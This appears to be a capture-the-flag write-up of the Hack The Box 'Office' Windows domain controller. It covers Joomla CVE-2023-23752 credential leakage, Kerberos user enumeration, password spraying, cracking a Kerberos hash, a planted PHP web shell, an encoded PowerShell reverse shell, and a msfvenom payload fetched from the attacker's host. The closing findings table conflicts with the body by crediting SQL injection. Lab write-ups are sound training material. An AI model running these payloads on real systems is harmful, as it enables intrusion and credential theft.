



## ENUMERATION

I started with an nmap scan on the TCP ports to gain an insight of the services running on the server

```shell
pl4int3xt@archlinux ~/D/h/office> nmap -sC -sV -T4 -Pn 10.10.11.3

Nmap scan report for 10.10.11.3
Host is up (0.18s latency).
Not shown: 988 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Apache httpd 2.4.56 ((Win64) OpenSSL/1.1.1t PHP/8.0.28)
|_http-server-header: Apache/2.4.56 (Win64) OpenSSL/1.1.1t PHP/8.0.28
|_http-title: Home
| http-robots.txt: 16 disallowed entries (15 shown)
| /joomla/administrator/ /administrator/ /api/ /bin/ 
| /cache/ /cli/ /components/ /includes/ /installation/ 
|_/language/ /layouts/ /libraries/ /logs/ /modules/ /plugins/
|_http-generator: Joomla! - Open Source Content Management
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-02-23 16:04:29Z)
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: office.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC.office.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC.office.htb
| Not valid before: 2023-05-10T12:36:58
|_Not valid after:  2024-05-09T12:36:58
|_ssl-date: TLS randomness does not represent time
443/tcp  open  ssl/http      Apache httpd 2.4.56 (OpenSSL/1.1.1t PHP/8.0.28)
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
|_http-server-header: Apache/2.4.56 (Win64) OpenSSL/1.1.1t PHP/8.0.28
|_ssl-date: TLS randomness does not represent time
|_http-title: 400 Bad Request
| tls-alpn: 
|_  http/1.1
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: office.htb0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=DC.office.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC.office.htb
| Not valid before: 2023-05-10T12:36:58
|_Not valid after:  2024-05-09T12:36:58
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: office.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC.office.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC.office.htb
| Not valid before: 2023-05-10T12:36:58
|_Not valid after:  2024-05-09T12:36:58
|_ssl-date: TLS randomness does not represent time
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: office.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC.office.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC.office.htb
| Not valid before: 2023-05-10T12:36:58
|_Not valid after:  2024-05-09T12:36:58
|_ssl-date: TLS randomness does not represent time
Service Info: Hosts: DC, www.example.com; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 7h59m59s
| smb2-time: 
|   date: 2024-02-23T16:05:16
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 110.66 seconds
```

From the scan it was clear in my mind that the box was a windows box and a domain controller. Next step is to add the ip address into the `/etc/hosts` file.

```shell
echo '10.10.11.3 office.htb' | sudo tee -a /etc/hosts
```

I then fired up firefox and navigated to the url `http://office.htb` as i specified it in the `/etc/hosts` file.


I proceeded to find the version of joomla running and found that it was `4.2.7` with the help of this [blog]()



After doing some google searching, i came across this [CVE-2023-23752](https://vulncheck.com/blog/joomla-for-rce) that affects joomla `4.2.7`. The CVE allows one to leak data by sending a Get request to `/v1/config/application?public=true`. I fired up insomnia and made the get request and leaked mysql credentials.




```json
{
	"type": "application",
	"id": "224",
	"attributes": {
		"user": "root",
	    "id": 224
	}
},
{
	"type": "application",
	"id": "224",
	"attributes": {
		"password": "H0lOgrams4reTakIng0Ver754!",
		"id": 224
	}
},
```

I tried login into the administrator page with the found credentials but they never worked. Since mysql service is not exposed through any port the next thing was to start enumerating users in the domain controller and perform a password spray using the found credentials to see if any user might have reused the password. I used kerbrute to enumerate the users in the domain using `jsmith.txt` wordlist.

```shell
pl4int3xt@archlinux ~> kerbrute userenum --dc 10.10.11.3 -d office.htb ~/Downloads/wordlists/seclists/jsmith.txt

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 02/26/24 - Ronnie Flathers @ropnop

2024/02/26 19:09:57 >  Using KDC(s):
2024/02/26 19:09:57 >  	10.10.11.3:88

2024/02/26 19:10:56 >  [+] VALID USERNAME:	ewhite@office.htb
2024/02/26 19:15:36 >  [+] VALID USERNAME:	dmichael@office.htb
2024/02/26 19:16:10 >  [+] VALID USERNAME:	dwolfe@office.htb
2024/02/26 19:17:14 >  [+] VALID USERNAME:	tstark@office.htb
2024/02/26 19:49:43 >  [+] VALID USERNAME:	hhogan@office.htb
2024/02/26 19:53:12 >  [+] VALID USERNAME:	ppotts@office.htb
2024/02/26 19:56:45 >  Done! Tested 48705 usernames (6 valid) in 2807.300 seconds
```

After taking some sips of coffee i got a list of valid users. I saved the list as `user.txt`. Next i performed a password spray on the smb shares using crackmapexec and got one hit `dwolfe`.

```shell
pl4int3xt@archlinux ~/D/h/office> crackmapexec smb 10.10.11.3 -u user.txt -p 'H0lOgrams4reTakIng0Ver754!' --shares
SMB         10.10.11.3      445    DC               [*] Windows 10.0 Build 20348 (name:DC) (domain:office.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.3      445    DC               [-] office.htb\ewhite:H0lOgrams4reTakIng0Ver754! STATUS_LOGON_FAILURE 
SMB         10.10.11.3      445    DC               [-] office.htb\dmichael:H0lOgrams4reTakIng0Ver754! STATUS_LOGON_FAILURE 
SMB         10.10.11.3      445    DC               [+] office.htb\dwolfe:H0lOgrams4reTakIng0Ver754! 
SMB         10.10.11.3      445    DC               [+] Enumerated shares
SMB         10.10.11.3      445    DC               Share           Permissions     Remark
SMB         10.10.11.3      445    DC               -----           -----------     ------
SMB         10.10.11.3      445    DC               ADMIN$                          Remote Admin
SMB         10.10.11.3      445    DC               C$                              Default share
SMB         10.10.11.3      445    DC               IPC$            READ            Remote IPC
SMB         10.10.11.3      445    DC               NETLOGON        READ            Logon server share 
SMB         10.10.11.3      445    DC               SOC Analysis    READ            
SMB         10.10.11.3      445    DC               SYSVOL          READ            Logon server share 
```

The interesting share was `SOC Analysis` since the other ones are default shares. I used smbclient to connect to the smbshares and found `Latest-System-Dump-8fbc124d.pcap`. I downloaded the file to my local machine to analyse it. 

```shell
pl4int3xt@archlinux ~/D/h/office [1]> smbclient //10.10.11.3/'SOC Analysis' -U dwolfe -L
Can't load /etc/samba/smb.conf - run testparm to debug it
Password for [WORKGROUP\dwolfe]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed May 10 21:52:24 2023
  ..                                DHS        0  Wed Feb 14 13:18:31 2024
  Latest-System-Dump-8fbc124d.pcap      A  1372860  Mon May  8 03:59:00 2023

		6265599 blocks of size 4096. 1110515 blocks available
smb: \> get Latest-System-Dump-8fbc124d.pcap
```

Going through the pcap file using wireshark the KRB5 protocol packet which was an AS-REQ caught my eyes. 


I did some google search to get the structure of a krbtgt ticket. I then used the following details `cipher cname-string sname-string` from the KRB5 packet to reconstruct the ticket.

```
$krb5pa$18$tstark$OFFICE.HTB$a16f4806da05760af63c566d566f071c5bb35d0a414459417613a9d67932a6735704d0832767af226aaa7360338a34746a00a3765386f5fc
```

I then fired hashcat and cracked the ticket and got the password `playboy69`

```shell
hashcat -m 19900 hash.txt /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting

<SNIP>

$krb5pa$18$tstark$OFFICE.HTB$a16f4806da05760af63c566d566f071c5bb35d0a414459417613a9d67932a6735704d0832767af226aaa7360338a34746a00a3765386f5fc:playboy69
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 19900 (Kerberos 5, etype 18, Pre-Auth)
Hash.Target......: $krb5pa$18$tstark$OFFICE.HTB$a16f4806da05760af63c56...86f5fc
Time.Started.....: Mon Feb 26 08:35:04 2024 (7 secs)
Time.Estimated...: Mon Feb 26 08:35:11 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:     1109 H/s (10.20ms) @ Accel:256 Loops:128 Thr:1 Vec:4
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 5120/14344385 (0.04%)
Rejected.........: 0/5120 (0.00%)
Restore.Point....: 4608/14344385 (0.03%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:3968-4095
Candidate.Engine.: Device Generator
Candidates.#1....: Liverpool -> babygrl
Hardware.Mon.#1..: Util: 92%

<SNIP>               

```

I then logged in to the joomla dashboard using the found credentials `administrator:playboy69`.



The Next step was now to find a template to edit and use it to inject a reverse shell. I decided to go with atum `error_login.php`. I deleted the content of the page and added a php code that would allow me to execute commands on the server.

```php
<?php if(isset($_REQUEST["cmd"])){ echo "<pre>"; $cmd = ($_REQUEST["cmd"]); system($cmd); echo "</pre>"; die; }?>
```


I went to [revshells](https://www.revshells.com/) and generated a powershell reverse shell payload.

```powershell
powershell%20-e%20JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA2AC4AMQAwADkAIgAsADQANAA0ADQAKQA7ACQAcwB0AHIAZQBhAG0AIAA9ACAAJABjAGwAaQBlAG4AdAAuAEcAZQB0AFMAdAByAGUAYQBtACgAKQA7AFsAYgB5AHQAZQBbAF0AXQAkAGIAeQB0AGUAcwAgAD0AIAAwAC4ALgA2ADUANQAzADUAfAAlAHsAMAB9ADsAdwBoAGkAbABlACgAKAAkAGkAIAA9ACAAJABzAHQAcgBlAGEAbQAuAFIAZQBhAGQAKAAkAGIAeQB0AGUAcwAsACAAMAAsACAAJABiAHkAdABlAHMALgBMAGUAbgBnAHQAaAApACkAIAAtAG4AZQAgADAAKQB7ADsAJABkAGEAdABhACAAPQAgACgATgBlAHcALQBPAGIAagBlAGMAdAAgAC0AVAB5AHAAZQBOAGEAbQBlACAAUwB5AHMAdABlAG0ALgBUAGUAeAB0AC4AQQBTAEMASQBJAEUAbgBjAG8AZABpAG4AZwApAC4ARwBlAHQAUwB0AHIAaQBuAGcAKAAkAGIAeQB0AGUAcwAsADAALAAgACQAaQApADsAJABzAGUAbgBkAGIAYQBjAGsAIAA9ACAAKABpAGUAeAAgACQAZABhAHQAYQAgADIAPgAmADEAIAB8ACAATwB1AHQALQBTAHQAcgBpAG4AZwAgACkAOwAkAHMAZQBuAGQAYgBhAGMAawAyACAAPQAgACQAcwBlAG4AZABiAGEAYwBrACAAKwAgACIAUABTACAAIgAgACsAIAAoAHAAdwBkACkALgBQAGEAdABoACAAKwAgACIAPgAgACIAOwAkAHMAZQBuAGQAYgB5AHQAZQAgAD0AIAAoAFsAdABlAHgAdAAuAGUAbgBjAG8AZABpAG4AZwBdADoAOgBBAFMAQwBJAEkAKQAuAEcAZQB0AEIAeQB0AGUAcwAoACQAcwBlAG4AZABiAGEAYwBrADIAKQA7ACQAcwB0AHIAZQBhAG0ALgBXAHIAaQB0AGUAKAAkAHMAZQBuAGQAYgB5AHQAZQAsADAALAAkAHMAZQBuAGQAYgB5AHQAZQAuAEwAZQBuAGcAdABoACkAOwAkAHMAdAByAGUAYQBtAC4ARgBsAHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA
```

I url-encoded it and started a netcat listener at port `4444`. I then went to the `/templates/atum/error_login.php?cmd=` and inserted my payload there.


The last step was to hit enter to trigger the payload and immediately i was in as `office\web_account`.

## Initial foothold

```shell
pl4int3xt@archlinux ~> nc -nlvp 4444
Connection from 10.10.11.3:62207
whoami
office\web_account
PS C:\xampp\htdocs\joomla\administrator\templates\atum>
```

Nothing was at the `web_account` Desktop and so the next step was to do some lateral movement to another user account.

## Lateral Movement


```
PS C:\Users\Public> Invoke-WebRequest "http://10.10.16.109:8000/Invoke-RunasCs.ps1" -o Invoke-RunasCs.ps1
```
[RunasCs.ps1](https://github.com/antonioCoco/RunasCs/blob/master/Invoke-RunasCs.ps1)


```
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=10.10.16.109 -f exe -o rev.exe LPORT=9999
```

```
pl4int3xt@archlinux ~/D/h/office> python3 -m http.server
```

```
PS C:\Users\Public> Invoke-WebRequest "http://10.10.16.109:8000/rev.exe" -o rev.exe
```
## Remediation Summary

### Short Term
* [Finding 1] - Update joomla version to the latest one
* [Finding 2] - Enhance the domain password policy
* Enforce a password change for all users because of the domain comprmise.

## Technical Findings
### 1.Weak passwords 

## Compromised users
| **User**                                                                                                        | **Method**                             |
| ------------------------------------------------------------------------------------------------------------------ | ------------------------------------------- |
| dwolfe                        | Password Spraying             |
|  administrator                | SQlinjection    |
| tsark                         | SQlinjection  and Password Reuse          |


## Host cleanup
